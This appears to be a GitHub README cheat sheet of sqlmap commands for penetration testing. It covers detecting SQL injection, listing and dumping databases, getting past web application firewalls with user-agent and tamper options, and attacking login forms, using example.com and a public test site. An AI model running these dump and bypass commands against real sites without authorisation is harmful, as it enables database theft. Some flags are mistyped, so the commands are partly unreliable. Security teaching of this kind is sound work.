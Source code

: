 ## Sqlmap 

SQLmap is an open-source tool used in penetration testing to detect and exploit SQL injection flaws
SQLmap automates the process of detecting and exploiting SQL injection
SQL Injection attacks can take control of databases that utilize SQL.


## 1. Find Sql Injection 

    sqlmap -u example.com --crawl 10 --batch 
    sqlmap -u example.com --crawl 10 --batch --level 5 --risk 3 --cookie="PHPSESSID=a8d127e.." -A "Mozilla/5.0...Firefox/102.0" -H "Referer: https://abc.com" 

## 2. Find Information in vulnerable url

    sqlmap -u example.com --current-user --current-db --batch --technique (default "BEUSTQ")
    
    
## 3. Find database names in vulnerable url

    sqlmap -u example.com --dbs --batch --technique (default "BEUSTQ")

## 4. Find Tables in databases 

    sqlmap -u example.com -D databasename --tables --batch --technique (default "BEUSTQ")
    
## 5. Find Tables all data 

    sqlmap -u example.com -D databasename -T tabelsname --dump --batch --technique (default "BEUSTQ")

## 5. Find Data type in store in tables like rows colums 

    sqlmap -u example.com -D databasename -T tabelsname --columns -batch --technique (default "BEUSTQ")
    
## 6. Find all tables information in databases
 
    sqlmap -u example.com -D databasename --dump-all -batch --technique (default "BEUSTQ")
     
## 7. Find vulnerable urls save in directory 

    sqlmap -u example.com --crawl 10 --batch --output-dir="/home/asif/sql/"
    
## 8. Add users difine Haders  

    sqlmap -u example.com --batch --crawl 3 --headers="Referer:abc.com" 
  
## 9. Use USER_AGENT Bypass WAF

    sqlmap -u example.com --batch --crawl 3 --user-agent="asifkhan" 
    sqlmap -u example.com --batch --crawl 3 --mobile
  
## 10. Use TAMPER Bypass WAF

Try One By One Tamper list option to bypass the WAF
  
    sqlmap --list-tampers
    sqlmap -u example.com --batch --crawl 3 --tamper=base64encode
    
## 11. Find Which paylods to use find sql inejction 

    sqlmap -u example.com --batch --crawl 3 -v 3
    
## 12. Test one parameter like username y password 

     sqlmap -u example.com/loging.php -p usernaem
     
     
## 13. You know the current db type is 'MYSQL'. Which flag allows you to enumerate only MySQL databases?

      sqlmap -u example.com -DBMS=MYSQL

  
## 14. Test Burp_Suite Request sql vulnerablity

  1. Capture request in burp suite like 

         POST /userinfo.php HTTP/1.1
         Host: testphp.vulnweb.com
         User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
         Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
         Accept-Language: en-US,en;q=0.5
         Accept-Encoding: gzip, deflate
         Content-Type: application/x-www-form-urlencoded
         Content-Length: 20
         Origin: http://testphp.vulnweb.com
         Connection: close
         Referer: http://testphp.vulnweb.com/login.php
         Upgrade-Insecure-Requests: 1

         uname=asif&pass=khan

  3. Copy The capture request in file like file name is khan and run sqlmap like

         sqlmap -r khan
  
  
## 15. Use Proxy and sand the request in burp_suite like 
  
  Open The Bur_suite and start intercept 
  
     sqlmap -u example.com --crawl 3 --proxy="127.0.0.1:8080"

  
 ## 16. Test Loging_page vulnerablity
 
  1. Loging Page urls 
  2. Check loging page Form Name 
  3. First check username Form like 

         <input name="uname" type="text" size="20" style="width:120px;">
         
 Here uname is Form name "uname"
 
 4. Secand Check password Form like 

        <input name="pass" type="password" size="20" style="width:120px;">         
          
 Here is pass is Form name "pass"
 
 5. Next Check Loging Button Form 

        <input type="submit" value="login" style="width:75px;">
        
 Here submit is Form name "submit" 
 
 6. Next Check Form where urls submite 

        <form name="loginform" method="post" action="userinfo.php">
        
 My Form is submite This Urls "userinfo.php"
               
 7. Finall Step use sqlmap like

        sqlmap -u example.com/login.php --forms
        
        
        
        
        
        
        
        
        
        
        
        
        
        
        
        
        
        
        
        
  
